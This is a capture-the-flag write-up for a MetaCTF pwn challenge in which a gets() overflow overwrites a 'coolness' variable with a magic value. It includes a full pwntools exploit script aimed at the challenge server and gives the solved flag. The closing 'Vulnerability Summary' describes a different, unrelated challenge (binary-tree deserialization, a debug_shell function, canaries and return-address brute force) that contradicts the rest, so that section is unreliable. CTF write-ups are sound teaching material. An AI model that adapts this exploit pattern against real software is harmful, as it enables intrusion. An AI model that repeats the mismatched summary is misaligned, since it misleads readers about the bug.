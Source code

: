 # How Cool Are You? - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/HowCoolAreYou.gif)

---

## Challenge Summary

This program calculates a random "coolness" score for the user and asks for their name. It uses the unsafe `gets()` function to read the username, which allows a buffer overflow vulnerability.

To get the flag, you need to overwrite the `your_estimated_coolness` variable’s value with the magic number `1500000001`. This will trigger the special condition that prints the flag stored in the environment variable `FLAG`.

The main exploit vector is a classic **stack-based buffer overflow** via the `gets()` call, allowing you to overwrite adjacent variables on the stack.

## Binary Information

```bash
$ file chal
```

![Alt text](img/2.png)

```bash
$ pwn checksec chal
```

![Alt text](img/3.png)

---

## Static Analysis (CLion - JetBrains)

Using CLion, we can easily inspect the program logic and identify the vulnerability:

### Key Observations:

- **User input is read using `gets(your_name);`**, which is an unsafe function that **does not perform bounds checking**. This allows overflowing the 64-byte `your_name` buffer.

- The next variable on the stack after `your_name` is `your_estimated_coolness` — an `int` that determines if the flag is printed.

- The **coolness value is assigned before the `gets()` call**, which means a crafted input can overwrite it with a specific value: `1500000001`.

- The program checks for an **exact match** with that value to reveal the flag via `getenv("FLAG")`.

---

## Exploit Strategy

This challenge relies on a classic **stack-based buffer overflow**. By overflowing a local buffer (`your_name`), we can overwrite an adjacent variable (`your_estimated_coolness`) on the stack.

To solve the challenge, we supply carefully crafted input that:

- Fills the buffer completely.
- Overwrites the coolness value with the exact number required to pass the check (`1500000001`).

No need for shellcode or control flow hijacking—just simple memory corruption to meet a condition.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template chal --host kubenode.mctf.io --port 30005
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'chal')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'kubenode.mctf.io'
port = int(args.PORT or 30005)

env_vars = {
        "FLAG":"MetaCTF{dummy_flag}"
}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env=env_vars, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

offset = 76
payload = flat (
        b'A' * offset,
        p64(0x59682f01)
)
io.sendline(payload)
io.recvuntil(b"Oh, right, here's the flag: ")
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{oh_w0w_y0ur3_pr3tty_c00l_aft3r_a11}
```
